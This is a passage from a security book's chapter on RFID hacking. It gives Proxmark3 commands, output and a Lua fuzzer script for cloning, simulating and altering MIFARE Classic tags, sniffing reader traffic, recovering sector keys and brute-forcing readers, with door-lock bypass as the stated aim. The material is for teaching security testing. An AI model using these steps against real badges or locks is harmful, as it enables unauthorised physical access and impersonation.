Writing to block   0: B4 6F 6F 79 CD 08 04 00 01 2A 51 62 0B D9 BB 1D           
[+] isOk:00          
Writing to block   1: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
[+] isOk:01          
Writing to block   2: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00           
…
Writing to block  63: FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF           
[+] isOk:01          
[=] Finish restore
```

这条命令并不要求卡片必须是空白的，但`restore`命令会再次使用 *dumpkeys.bin* 文件来访问卡片。如果卡片当前的密钥与 *dumpkeys.bin* 文件中存储的密钥不同，写入操作将会失败。

````` ````### Simulating RFID Tags    In the previous examples, we cloned an RFID tag by storing the legitimate tag’s data in files using the `dump` command and using a new card to restore the extracted data. But it’s also possible to simulate an RFID tag using Proxmark3 by extracting the data directly from the device’s memory.    Load the previously stored contents of a MIFARE tag into the Proxmark3 memory using the `eload` parameter. Specify the name of the .*eml* file in which the extracted data is stored:    ``` proxmark3> **hf mf eload** **hf-mf-B46F6F79-data** ```    Note that this command occasionally fails to transfer the data from all stored sectors to the Proxmark3 memory. In that case, you’ll receive an error message. Using the command two or more times should solve this bug and complete the transfer successfully.    To simulate the RFID tag using data from the device’s memory, use the `sim` parameter:    ``` proxmark3> **hf mf sim *1 u 8c61b5b4**  mf sim cardsize: 1K, uid: 8c 61 b5 b4 , numreads:0, flags:3 (0x03)            #db# 4B UID: 8c61b5b4           #db# SAK:    08           #db# ATQA:   00 04  ```    The *** character selects all the tag’s blocks, and the number that follows it specifies the memory size (in this case, `1` for MIFARE Classic 1KB). The `u` *parameter specifies the impersonated RFID tag’s UID.*   *Many IoT devices, such as smart door locks, use the tag’s UID to perform access control. These locks rely on a list of tag UIDs associated with specific people allowed to open the door. For example, a lock on an office door might open only when an RFID tag with the UID `8c61b5b4`—known to belong to a legitimate employee—is in proximity.    You might be able to guess a valid UID by simulating tags with random UID values. This could work if the tags you’re targeting use low entropy UIDs that are subject to collisions.    ### Altering RFID Tags    In certain cases, it’s useful to alter the contents of a tag’s specific block or sector. For example, a more advanced office door lock won’t just check for the UID of the tag in range; it will also check for a specific value, associated with a legitimate employee, in one of the tag’s blocks. As in the example from “Simulating RFID Tags” on page 254, selecting an arbitrary value might allow you to circumvent the access control.    To change a specific block of a MIFARE tag maintained in the Proxmark3’s memory, use the `eset` parameter, followed by the block number and the content that you want to add to the block, in hex. In this example, we’ll set the value `000102030405060708090a0b0c0d0e0f` on block number `01`:    ``` proxmark3> **hf mf eset 01 000102030405060708090a0b0c0d0e0f** ```    To verify the result, use the `eget` command, followed by the block number again:    ``` proxmark3> **hf mf eget 01** data[  1]:00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f  ```    Now it’s possible to use the `sim` command once more to simulate the altered tag. You can also alter the memory contents of the legitimate physical tag using the `wrbl` parameter, followed by the block number, the type of key to use (`A` or`B`), the key—which in our case is the default `FFFFFFFFFFFF`—and the content in hex:    ``` proxmark3> **hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f** --block no:1, key type:B, key:ff ff ff ff ff ff            --data: 00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f            #db# WRITE BLOCK FINISHED           isOk:01  ```    Verify that the specific block was written using the `rdbl` parameter, followed by the block number 01 with a type B key `FFFFFFFFFFFF`:    ``` proxmark3> **hf mf rdbl 01 B FFFFFFFFFFFF** **--block no:1, key type:B, key:ff ff ff ff ff ff**  **#db# READ BLOCK FINISHED**  isOk:01 data:00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f ```    The output contains the same contents in hex that you wrote to that block.    ### Attacking MIFARE with an Android App    On Android phones, you can run apps that attack MIFARE cards. One common app for this is the MIFARE Classic Tool, which uses a preloaded list of keys to brute force the key values and read the card data. You can then save the data to emulate the device in the future.    To read a nearby tag, click the **READ TAG** button in the app’s main menu. A new interface should appear. From here, you can select a list containing the default keys to test and a progress bar, as shown in Figure 10-6.    Save this data to a new record by clicking the floppy disk icon on the top of the interface. To clone the tag, click the **WRITE TAG** button on the main menu. In the new interface, select the record by clicking the **SELECT DUMP** button and write it to a different tag.      Figure 10-6: The MIFARE Classic Tool interface for Android devices      After a successful read operation, the app lists the data retrieved from all the blocks, as shown in Figure 10-7.      Figure 10-7: Cloning an RFID tag      ### RAW Commands for Nonbranded or Noncommercial RFID Tags    In the previous sections, we used vendor-specific commands to control commercial RFID tags with Proxmark3\. But IoT systems sometimes use nonbranded or noncommercial tags. In this case, you can use Proxmark3 to send custom raw commands to the tags. Raw commands are very useful when you’re able to retrieve command structures from a tag’s datasheet and those commands aren’t yet implemented in Proxmark3.    In the following example, instead of using the`hf mf`command as we did in previous sections, we’ll use raw commands to read a MIFARE Classic 1KB tag.    #### Identifying the Card and Reading Its Specification    First, use the `hf search` command to verify that the tag is in range:    ``` proxmark3> **hf search**      UID : 80 55 4b 6c            ATQA : 00 04           SAK : 08 [2]           TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1           proprietary non iso14443-4 card found, RATS not supported           No chinese magic backdoor command detected           Prng detection: WEAK           Valid ISO14443A Tag Found - Quiting Search ```    Next, check the card’s specification, which you can find at the vendor’s site ([`www.nxp.com/docs/en/data-sheet/MF1S50YYX_V1.pdf`](https://www.nxp.com/docs/en/data-sheet/MF1S50YYX_V1.pdf) and [`www.nxp.com/docs/en/application-note/AN10833.pdf`](https://www.nxp.com/docs/en/application-note/AN10833.pdf)). According to the specification, to establish a connection with the card and perform a memory operation, we must follow the protocol shown in Figure 10-8.    The protocol requires four commands to establish an authenticated connection with the MIFARE tag. The first command, *Request all* or *REQA*, forces the tag to respond with a code that includes the tag’s UID size. In the *Anti-collision loop* phase, the reader requests the UIDs of all the tags in the operating field, and in the *Select card* phase, it selects an individual tag for further transactions. The reader then specifies the tag’s memory location for the memory access operation and authenticates using the corresponding key. We’ll describe the authentication process in “Extracting a Sector’s Key from the Captured Traffic” on page 261.    #### Sending Raw Commands    Using raw commands requires you to manually send each specific byte of the command (or part of it), the corresponding command’s data, and, eventually, the CRC bytes for cards that require error detection. For example, Proxmark3’s `hf 14a raw` command allows you to send ISO14443A commands to an ISO14443A compatible tag. You then provide the raw commands in hex after the `-p`parameter.      Figure 10-8: MIFARE tags authentication protocol      You’ll need the hex opcodes for the commands you want to use. You can find these in the card’s specification. These opcodes correspond to the authentication protocol steps shown in Figure 10-8.    First, use the `hf 14a``raw` command with the `–p` parameter. Then send the *Request all* command, which corresponds to the hex opcode `26`. According to the specification, this command requires 7 bits, so use the `-b 7` parameter to define the maximum number of bits you’ll use. The default value is 8 bits.    ``` proxmark3> **hf 14a raw -p -b 7 26** received 2 bytes:           04 00  ```    The device responds with a success message, named *ATQA*, with the value `0x4`. This byte indicates that the UID size is four bytes. The second command is the *Anti-collision* command*,* which corresponds to the hex opcode `93 20`:    ``` proxmark3> **hf 14a raw -p 93 20** received 5 bytes:           80 55 4B 6C F2  ```    The device responds with the device UID `80 55 4b 6c`. It also returns a byte generated by performing a XOR operation on all the previous bytes as an integrity protection. We now have to send the `SELECT Card` command, which corresponds to hex opcode `93 70`, followed by the previous response, which contains the tag’s UID:    ``` proxmark3> **hf 14a raw -p -c 93 70 80 55 4B 6C F2** received 3 bytes:           08 B6 DD  ```    Finally, you’re ready to authenticate with a type A sector key, which corresponds to hex opcode `60`, and the default password for sector `00`:    ``` proxmark3> **hf 14a raw -p -c 60 00** received 4 bytes:           5C 06 32 57 ```    Now you can proceed with the other memory operations listed in the specification, such as reading a block. We leave this as an exercise for you to complete.    ### Eavesdropping on the Tag-to-Reader Communication    Proxmark3 can eavesdrop on transactions between a reader and a tag. This operation is extremely useful if you want to examine the data a tag and an IoT device exchanges.    To start eavesdropping on the communication channel, place the Proxmark3 antenna between the card and the reader, select either a high-frequency or a low-frequency operation, specify the tag implementation, and use the `snoop` parameter. (Some vendor-specific tags, implementations use the `sniff` parameter instead.)    In the following example, we attempt to eavesdrop on an ISO14443A-compatible tag, so we select the `14a` parameter:    ``` $ proxmark3> **hf 14a snoop** #db# cancelled by button           #db# COMMAND FINISHED           #db# maxDataLen=4, Uart.state=0, Uart.len=0           #db# traceLen=11848, Uart.output[0]=00000093 ```    We interrupt the capture by pressing the Proxmark3’s button when the communication between the card and the reader ends.    To retrieve the captured packets, specify either a high-frequency or a low-frequency operation, the `list` parameter, and the tag implementation:    ``` proxmark3> **hf list 14a** Recorded Activity (TraceLen = 11848 bytes)           Start = Start of Start Bit, End = End of last modulation. Src = Source of Transfer           iso14443a - All times are in carrier periods (1/13.56Mhz)           iClass    - Timings are not as accurate …     0 |992 | Rdr | 52' | | WUPA   2228 |   4596 | Tag | 04  00  | |    7040 |   9504 | Rdr | 93  20  | | ANTICOLL   10676 |  16564 | Tag | 80  55  4b  6c  f2  | |    19200 |  29728 | Rdr | 93  70  80  55  4b  6c  f2  30  df  |  ok | SELECT_UID   30900 |  34420 | Tag | 08  b6  dd  | |    36224 |  40928 | Rdr | 60  00  f5  7b  |  ok | AUTH-A(0)   42548 |  47220 | Tag | 63  17  ec  f0  | |    56832 |  66208 | Rdr | 5f! 3e! fb  d2  94! 0e! 94  6b  | !crc| ?   67380 |  72116 | Tag | 0e  2b  b8  3f! | |    … ```    The output will also decode the identified operations. The exclamation points near the hex bytes indicate that a bit error occurred during the capture.    ### Extracting a Sector’s Key from the Captured Traffic    Eavesdropping on RFID traffic can reveal sensitive information, particularly when the tags use weak authentication controls or unencrypted communication channels. Because the MIFARE Classic tags use a weak authentication protocol, you can extract a sector’s private key by capturing a single successful authentication between the RFID tag and the RFID reader.    According to the specification, MIFARE Classic tags perform a three-pass authentication control with the RFID reader for each requested sector. First, the RFID tag selects a parameter called `nt` and sends it to the RFID reader. The RFID reader performs a cryptographic operation using the private key and received parameter. It generates an answer, called `ar`. Next, it selects a parameter called `nr` and sends it to the RFID tag along with `ar`. Then the tag performs a similar cryptographic operation with the parameters and the private key, generating an answer, called `at`, that it sends back to the RFID tag reader. Because the cryptographic operations that the reader and the tag perform are weak, knowing these parameters allows you to calculate the private key!    Let’s examine the eavesdropping communications captured in the previous section to extract these exchanged parameters:    ``` proxmark3> **hf list 14a** Start = Start of Start Bit, End = End of last modulation. Src = Source of Transfer           iso14443a - All times are in carrier periods (1/13.56Mhz)           iClass    - Timings are not as accurate               Start |End | Src | Data (! denotes parity error, ' denotes short bytes)| CRC | Annotation |      ------------|------------|-----|--------------------------------------------------------------       0 |992 | Rdr | 52' | | WUPA      2228 |   4596 | Tag | 04  00  | |       7040 |   9504 | Rdr | 93  20  | | ANTICOLL      10676 |  16564 | Tag | **80  55  4b  6c**  f2  | | 1    19200 |  29728 | Rdr | 93  70  80  55  4b  6c  f2  30  df  |  ok | SELECT_UID      30900 |  34420 | Tag | 08  b6  dd  | |       36224 |  40928 | Rdr | 60  00  f5  7b  |  ok | AUTH-A(0)      42548 |  47220 | Tag | **63  17  ec  f0**  | | 2    56832 |  66208 | Rdr | **5f! 3e! fb  d2****94! 0e! 94  6b**  | !crc| ? 3    67380 |  72116 | Tag | **0e  2b  b8  3f!** | | 4 ```    We can identify the card’s UID 1 as the value that comes before the `SELECT_UID` command. The `nt`2, `nr`, `ar`3, and `at`4 parameters appear just after the `AUTH-A(0)` command, always in this order.    Proxmark3’s source code includes a tool named `mfkey64` that can perform the cryptographic calculation for us. Pass it the card’s UID, followed by the `nt`, `nr`, `ar`, and `at` parameters:    ``` $ **./tools/mfkey/mfkey64 80554b6c 6317ecf0 5f3efbd2 940e946b 0e2bb83f** MIFARE Classic key recovery - based on 64 bits of keystream Recover key from only one complete authentication! Recovering key for:    uid: 80554b6c     nt: 6317ecf0   {nr}: 5f3efbd2   {ar}: 940e946b   {at}: 0e2bb83f LFSR successors of the tag challenge:   nt' : bb2a17bc   nt'': 70010929 Time spent in lfsr_recovery64(): 0.09 seconds Keystream used to generate {ar} and {at}:    ks2: 2f2483d7    ks3: 7e2ab116 **Found Key: [****FFFFFFFFFFFF****]**1 ```    If the parameters are correct, the tool calculates the private key 1 for the sector.    ### The Legitimate RFID Reader Attack    In this section, we’ll show you how to spoof a legitimate RFID tag and perform a brute-force attack against the RFID reader’s authentication control. This attack is useful in cases where you have prolonged access to the legitimate reader and limited access to the victim’s tag.    As you might have noticed, the legitimate tag will send the`at` response to the legitimate reader only at the end of the three-pass authentication. Adversaries who have physical access to the reader could spoof the RFID tag, generate their own `nt`*,* and receive the `nr` and `ar` from the legitimate reader. Although the authentication session can’t successfully terminate, because the adversaries don’t know the sector’s key, they might be able to perform a brute-force attack for the rest of the parameters and calculate the key.    To perform the legitimate reader attack, use the tag simulation command `hf mf sim`:    ``` proxmark3> **hf mf sim *1 u 19349245 x i** mf sim cardsize: 1K, uid: 19 34 92 45 , numreads:0, flags:19 (0x13)            Press pm3-button to abort simulation     #db# Auth attempt {nr}{ar}: c67f5ca8 68529499           Collected two pairs of AR/NR which can be used to extract keys from reader: … ```    The *** character selects all the tag blocks. The number that follows specifies the memory size (in this case, `1` for MIFARE Classic 1KB). The `u` parameter lists the impersonated RFID tag’s UID, and the `x` parameter enables the attack. The `i`parameter allows the user to have an interactive output.    The command’s output will contain the `nr` and `ar` values, which we can use to perform the key calculation in the same way as we did in the previous section. Note that even after calculating the sector’s key, we’d have to gain access to the legitimate tag to read its memory.    ### Automating RFID Attacks Using the Proxmark3 Scripting Engine    The Proxmark3 software comes with a preloaded list of automation scripts that you can use to perform simple tasks. To retrieve the full list, use the `script list` command:    ``` $ proxmark3> **script list** brutesim.lua     A script file           tnp3dump.lua     A script file           … dumptoemul.lua   A script file           mfkeys.lua       A script file           test_t55x7_fsk.lua A script file ```    Next, use the `script run` command, followed by the script’s name, to run one of the scripts. For example, the following command executes `mfkeys`, which uses the techniques presented earlier in the chapter (see “Cracking the Keys with a Brute-Force Attack” on page 252) to automate the brute-force attack of a MIFARE Classic card:    ``` $ proxmark3> **script run mfkeys** --- Executing: mfkeys.lua, args '' This script implements check keys.  It utilises a large list of default keys (currently 92 keys). If you want to add more, just put them inside mf_default_keys.lua.  Found a NXP MIFARE CLASSIC 1k | Plus 2k tag Testing block 3, keytype 0, with 85 keys … Do you wish to save the keys to dumpfile? [y/n] ? ```    Another very helpful script is `dumptoemul`, which transforms a .*bin* file created from the dump command to a .*eml* file that you can directly load to the Proxmark3 emulator’s memory:    ``` proxmark3> **script run dumptoemul -i dumpdata.bin -o CEA0B6B4.eml** --- Executing: dumptoemul.lua, args '-i dumpdata.bin -o CEA0B6B4.eml' Wrote an emulator-dump to the file CEA0B6B4.eml -----Finished ```    The `-i` parameter defines the input file, which in our case is *dumpdata.bin*, and the `-o`parameter specifies the output file.    These scripts can be very useful when you have physical access to an RFID-enabled IoT device for only a limited amount of time and want to automate a large number of testing operations.    ### RFID Fuzzing Using Custom Scripting    In this section, we’ll show you how to use Proxmark3’s scripting engine to perform a simple mutation-based fuzzing campaign against an RFID reader. Fuzzers iteratively or randomly generate inputs to a target, which can lead to security issues. Instead of trying to locate known defects in an RFID-enabled system, you can use this process to identify new vulnerabilities in the implementation.    Mutation-based fuzzers generate inputs by modifying an initial value, called the *seed,* which is usually a normal payload. In our case, this seed can be a valid RFID tag that we’ve successfully cloned. We’ll create a script that automates the process of connecting to an RFID reader as this legitimate tag and then hide invalid, unexpected, or random data in its memory blocks. When the reader tries to process the malformed data, an unexpected code flow might execute, leading to application or device crashes. The errors and exceptions can help you identify severe loopholes in the RFID reader application.    We’ll target an Android device’s embedded RFID reader and the software that receives the RFID tag data. (You can find many RFID reading apps in the Android Play Store to use as potential targets.) We’ll write the fuzzing code using Lua. You can find the full source code in the book’s repository. In addition, you can find more information about Lua in Chapter 5\.    To begin, save the following script skeleton in the Proxmark3 *client/scripts* folder using the name *fuzzer.lua.* This script, which has no functionality, will now appear when you use the `script list` command:    ``` File: fuzzer.lua author = "Book Authors" desc = "This is a script for simple fuzzing of NFC/RFID implementations"  function main(args) end  main() ```    Next, extend the script so it uses Proxmark3 to spoof a legitimate RFID tag and establish a connection with the RFID reader. We’ll use a tag that we’ve already read, exported to a .*bin* file using the `dump` command, and transformed to a .*eml* file using the *dumptoemul* script. Let’s assume that this file is named *CEA0B6B4.eml*.    First, we create a local variable named `tag` to store the tag data:    ``` local tag = {} ```    Then we create the`load_seed_tag()` function*,* which loads the stored data from the *CEA0B6B4.eml* file to the Proxmark3 emulator’s memory, as well as to the previously created local variable named `tag`:    ``` function load_seed_tag()     print("Loading seed tag...").        core.console("hf mf eload CEA0B6B4") 1     os.execute('sleep 5')      local infile = io.open("CEA0B6B4.eml", "r")     if infile == nil then          print(string.format("Could not read file %s",tostring(input)))     end     local t = infile:read("*all")     local i = 0     for line in string.gmatch(t, "[^\n]+") do          if string.byte(line,1) ~= string.byte("+",1) then            tag[i] = line 2            i = i + 1         end     end end ```    To load a .*eml* file in Proxmark3 memory, we use the `eload` 1 parameter. You can use Proxmark3 commands by providing them as arguments in the `core.console()` function call. The next part of the function manually reads the file, parses the lines, and appends the content to the `tag`2 variable. As mentioned earlier, the `eload` command occasionally fails to transfer the data from all the stored sectors to the Proxmark3 memory, so you might have to use it more than once.    Our simplified fuzzer will mutate the initial `tag` value, so we need to write a function that creates random changes in the original RFID tag’s memory. We use a local variable named `charset` to store the available hex characters that we can use to perform these changes:    ``` local charset = {} do      for c = 48, 57  do table.insert(charset, string.char(c)) end     for c = 97, 102  do table.insert(charset, string.char(c)) end end ```    To fill the `charset` variable, we perform an iteration on the ASCII representation of the characters 0 to 9 and a to f. Then we create the function `randomize()` that uses the characters stored in the previous variable to create mutations on the emulated tag:    ``` function randomize(block_start, block_end)     local block = math.random(block_start, block_end) 1     local position = math.random(0,31) 2     local value = charset[math.random(1,16)] 3  print("Randomizing block " .. block .. " and position " .. position)      local string_head = tag[block]:sub(0, position)  local string_tail = tag[block]:sub(position+2)     tag[block] = string_head .. value .. string_tail      print(tag[block])     core.console("hf mf eset " .. block .. " " .. tag[block]) 4     os.execute('sleep 5') end ```    More precisely, this function randomly selects a tag’s memory block 1 and a position on each selected block 2, and then introduces a new mutation by replacing this character with a random value 3 from `charset`. We then update the Proxmark3 memory using the `hf mf eset` 4 command.    Then we create a function named `fuzz()` that repeatedly uses the `randomize()` function to create a new mutation on the seed RFID tag data and emulates the tag to the RFID reader:    ``` function fuzz()  1 core.clearCommandBuffer()  2 core.console("hf mf dbg 0")     os.execute('sleep 5')  3 while not core.ukbhit() do         randomize(0,63)      4 core.console("hf mf sim *1 u CEA0B6B4")     end     print("Aborted by user") end ```    The `fuzz()` function also uses the `core.clearCommandBuffer()` API call 1 to clear any remaining commands from Proxmark3 commands queue and uses the `hf mf dbg`2command to disable the debugging messages. It performs the fuzzing repeatedly, using a `while` loop, until the user presses the Proxmark3 hardware button. We detect this using the `core.ukbhit()`3 API call. We implement the simulation using the `hf mf sim`4 command.    Then we add the functions to the original script skeleton in *fuzzer.lua* and change the main function to call the `load_seed_tag()` and `fuzz()` functions:    ``` File: fuzzer.lua author = "Book Authors" desc = "This is a script for simple fuzzing of NFC/RFID implementations"      …Previous functions.. function main(args)       load_seed_tag()      fuzz() end main() ```    To start the fuzzing campaign, place the Proxmark3 antenna close to the RFID reader, which is usually located at the back of the Android device. Figure 10-9 shows this setup.      Figure 10-9: Fuzzing the RFID reader in an Android device      Then execute the `script run fuzzer` command:    ``` proxmark3> **script run fuzzer** Loading seed tag...        ........................................................... Loaded 64 blocks from file: CEA0B6B4.eml           #db# Debug level: 0           Randomizing block 6 and byte 19 00000000000000000008000000000000 mf sim cardsize: 1K, uid: ce a0 b6 b4 , numreads:0, flags:2 (0x02)            Randomizing block 5 and byte 8 636f6dfe600000000000000000000000 mf sim cardsize: 1K, uid: ce a0 b6 b4 , numreads:0, flags:2 (0x02)            Randomizing block 5 and byte 19 636f6dfe600000000004000000000000 ... ```    The output should contain the exact mutation that occurs in each data exchange with the reader. In each established communication, the reader will attempt to retrieve and parse the mutated tag data. Depending on the mutation, these inputs can affect the reader’s business logic, leading to undefined behavior or even application crashes. In the worst-case scenario, an RFID-enabled door lock hosting an access-control software might crash upon receiving the mutated input, allowing anyone to freely open the door.    We can evaluate the success of our fuzzer through experimentation. We’d measure the number of possibly exploitable bugs identified by crashing inputs. Note that this script is a simplified fuzzer that follows a naive approach: it uses simple random numbers to create the mutations in the given inputs. As a result, we don’t expect it to be very efficient at identifying software crashes. Less naive solutions would use improved mutations, map out the protocol to be fuzzed in detail, or even leverage program analysis and instrumentation techniques to interact with a greater amount of the reader’s code. This would require meticulously examining the documentation and constantly improving your fuzzer. For this purpose, try advanced fuzzing tools, such as the American Fuzzy Lop (AFL) or libFuzzer. This task is beyond the scope of this book, and we leave it as an exercise for you to complete.    ## Conclusion    In this chapter, we investigated RFID technology and covered a number of cloning attacks against common low-frequency and high-frequency RFID implementations. We examined how to retrieve a key to access the password-protected memory of the MIFARE Classic cards and then read and alter their memory. Finally, we walked through a technique that allows you to send raw commands to any type of ISO14493-compatible RFID tag based on its specification, and we used the Proxmark3 scripting engine to create a simplified fuzzer for RFID readers.*```` `````
